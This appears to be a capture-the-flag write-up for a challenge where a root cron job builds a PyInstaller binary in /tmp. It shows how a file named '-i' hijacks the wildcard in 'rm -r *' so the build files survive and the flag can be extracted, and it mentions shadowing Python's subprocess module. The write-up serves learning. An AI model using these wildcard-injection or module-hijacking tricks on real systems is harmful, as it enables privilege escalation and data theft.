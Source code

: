 # GutHib Actions

This was a very simple Misc challenge with an obvious intended solution, but I solved it using a (relatively more complex) unintended solution. I thought I'd share it here for people to enjoy :)

## Challenge Premise

The challenge revolves around the `root` user running a `build.sh` script every minute.&#x20;

The script runs a `build.py` file, which calls on [`pyinstaller`](https://pyinstaller.org/en/stable/index.html) to build an executable from the `/root/flag.py` file, and store it in the `/root` directory.

Finally, the `/tmp` directory is cleared with `rm -r *`, which deletes all build files generated by `pyinstaller`.

{% tabs %}
{% tab title="Dockerfile" %}
```docker
FROM ubuntu:22.04

RUN apt-get update &&  \
    apt-get install -y python3 python3-pip openssh-server cron && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/*

RUN pip install pyinstaller && \
    pip cache purge

RUN useradd -m -c 'Restricted guest account' guest && \
    echo 'guest:guest' | chpasswd

RUN echo "PasswordAuthentication yes" >> /etc/ssh/sshd_config

RUN (crontab -l ; echo "* * * * * /root/build.sh") | crontab


COPY ./flag.py /root/flag.py
COPY ./build.sh /root/build.sh
COPY ./build.py /root/build.py
COPY ./start.sh /root/start.sh

RUN chown -R guest /home/guest && \
    chmod -R 700 /root && \
    chmod -R 777 /home/guest
EXPOSE 1337
ENTRYPOINT /root/start.sh

```
{% endtab %}

{% tab title="build.sh" %}
```bash
#!/bin/bash
cd /tmp  # dump all the temp files Pyinstaller may generate in the temp dir
cp /root/build.py build.py
python3 build.py >/dev/null 2>&1  # build flag printing binary
rm -r *
```
{% endtab %}

{% tab title="build.py" %}
```python
import subprocess
subprocess.call(['pyinstaller',  '-F',  '--distpath', '/root', '/root/flag.py'])
```
{% endtab %}
{% endtabs %}

## Unintended Solution

It might not be immediately obvious, but there is actually a vulnerability in the `build.sh` file. The `rm -r *` uses [**wildcard expansion**](https://frippery.org/busybox/globbing.html), which is _wild_ly dangerous.

In Unix, wildcards are expanded by the shell and any matching filenames are passed as arguments to the program being run. This means that if there is a file by the name `-rf`, the `rm *` command would automatically be expanded to `rm -rf` - dangerous indeed!

In this case, we do _not_ want everything from the `/tmp` directory to be removed after the script is run, because the PyInstaller build files contain valuable information. We can place a file with the name `-i` in the `/tmp` directory to achieve this. According to the [man page](https://linuxcommand.org/lc3\_man\_pages/rm1.html):

```
-i     prompt before every removal
```

Therefore, by doing this:

```bash
$ echo "asdf" > "-i"
$ ls -la
total 12
-rw-rw-r-- 1 guest guest    5 Dec  5 18:00 -i
drwxrwxrwt 1 root  root  4096 Dec  5 18:00 .
drwxr-xr-x 1 root  root  4096 Dec  5 17:55 ..
```

we are effectively "hanging" the cronjob script at the `rm -r *` command, since the script has no way of answering the prompt that appears:

```
rm: descend into directory 'build'?
```

After the script runs, we have access to PyInstaller's build directory, where PyInstaller creates the files necessary for building the final executable generated in the `distpath`.

```bash
$ ls -la
total 24
-rw-rw-r-- 1 guest guest    5 Dec  5 18:04 -i
drwxrwxrwt 1 root  root  4096 Dec  5 18:07 .
drwxr-xr-x 1 root  root  4096 Dec  5 18:02 ..
drwxr-xr-x 3 root  root  4096 Dec  5 18:06 build
-rwx------ 1 root  root   101 Dec  5 18:07 build.py
-rw-r--r-- 1 root  root   814 Dec  5 18:06 flag.spec
```

Now that we have access to the `build` directory, let's take a look at what's inside.

```bash
$ ls -la build/flag
total 8468
drwxr-xr-x 3 root root    4096 Dec  5 18:06 .
drwxr-xr-x 3 root root    4096 Dec  5 18:06 ..
-rw-r--r-- 1 root root   10832 Dec  5 18:06 Analysis-00.toc
-rw-r--r-- 1 root root    4147 Dec  5 18:06 EXE-00.toc
-rw-r--r-- 1 root root    4052 Dec  5 18:06 PKG-00.toc
-rw-r--r-- 1 root root  859850 Dec  5 18:06 PYZ-00.pyz
-rw-r--r-- 1 root root    6937 Dec  5 18:06 PYZ-00.toc
-rw-r--r-- 1 root root 1066256 Dec  5 18:06 base_library.zip
-rw-r--r-- 1 root root 6457686 Dec  5 18:06 flag.pkg
drwxr-xr-x 2 root root    4096 Dec  5 18:06 localpycs
-rw-r--r-- 1 root root    1759 Dec  5 18:06 warn-flag.txt
-rw-r--r-- 1 root root  231842 Dec  5 18:06 xref-flag.html
```

As explained in the [documentation](https://pyinstaller.org/en/stable/advanced-topics.html?highlight=.pkg#using-pyi-archive-viewer), the `flag.pkg` is a ZlibArchive containing compressed `.pyc` files containing the bundled Python modules.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We can inspect its contents using `pyi-archive_viewer`, which is installed together with PyInstaller.

```python
$ pyi-archive_viewer build/flag/flag.pkg
 pos, length, uncompressed, iscompressed, type, name
[(0, 205, 271, 1, 'm', 'struct'),
 (205, 4225, 9058, 1, 'm', 'pyimod01_archive'),
 (4430, 7416, 17526, 1, 'm', 'pyimod02_importers'),
 (11846, 1772, 3639, 1, 'm', 'pyimod03_ctypes'),
 (13618, 594, 849, 1, 's', 'pyiboot01_bootstrap'),
 (14212, 450, 678, 1, 's', 'pyi_rth_inspect'),
 (14662, 105, 126, 1, 's', 'flag'),
 ...
```

We can then extract the `flag` file using the `X` command.

{% code overflow="wrap" %}
```
? X
extract name? flag
to filename? flag
?
```
{% endcode %}

Although we could quite easily see the flag in the hexdump of the extracted file at this point, I was still slightly confused by the file format, as the magic bytes were not recognised by Python bytecode disassemblers.

The extracted file was in fact the original Python bytecode, and _not_ a `.pyc` file as was suggested by the PyInstaller documentation. The key difference is that a `.pyc` file contains:

* A four-byte magic number,
* A four-byte modification timestamp, and
* A marshalled code object.

And the extracted file contains _only_ the marshalled code object (also see this [issue](https://github.com/pyinstaller/pyinstaller/issues/3435)). At this point we can just use Python's `marshall` module to run the code.

```python
>>> import marshal
>>> exec(marshal.load(open('flag', 'rb')))
STF22{5up3r_5U5_5y5t3m_m0du13!_a0d66b3e608fe2b38ddf77d679fbde6b74e231f54c469a081f04dc65004360f8}
```

## Intended Solution

The intended solution was just to override the `subprocess` module by writing to a `subprocess.py` file. I actually thought of this halfway through, but I was already too far in with the unintended solution not to see it through.

Anyway, this was a fun challenge! At least I learnt a thing or two about PyInstaller.
